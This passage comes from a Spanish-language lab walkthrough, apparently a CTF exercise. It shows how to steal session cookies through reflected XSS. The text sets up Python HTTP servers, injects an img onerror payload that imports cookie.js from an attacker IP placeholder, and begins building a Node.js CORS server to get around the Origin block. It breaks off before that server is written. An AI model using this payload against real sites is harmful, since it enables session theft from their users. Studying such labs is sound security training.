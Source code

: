 > PARA QUE EL SERVIDOR OBTENGA EL ARCHIVO

```shell
python3 -m http.server 80
```

> PARA RECIBIR COOKIE

```shell
python3 -m http.server 8000
```

Si nosotros metemos este `payload` para importar un archivo de forma externa de nuestra `IP` atacante del archivo creado anteriormente:

```
URL = trr0rlabs.bbl/form.php/"><img src/onerror=import("http:<IP_ATTACKER>/cookie.js")>
```

Si vamos a la consola veremos que nos lo esta bloqueando por el `Origin` ya que la cabecera de origen nos lo esta bloqueando:

Por lo que vamos a crear un servidor de `Node.js` para realizar un `bypass` de esta cabecera y que asi nos funcione para robar la `Cookie`

Antes vamos a instalar algunas dependencias que vamos a necesitar.

```shell
npm install express cors
```

Ahora vamos a utilizar el mismo archivo `cookie.js` y vamos a establecerlo en la raiz del servidor `Node.js`.

```shell
npm init -y
```

Info:

```js
Wrote to /home/d1se0/Desktop/package.json:

{
  "name": "desktop",
  "version": "1.0.0",
  "description": "",
  "main": "cookie.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC"
}
```

Ahora vamos a crear el archivo llamado `server.js` para que desde la pagina acceda a dicho servidor y directamente inyecte en la cabecera el `Origin` de nuestro servidor y pueda cargar el archivo sin ningun problema.
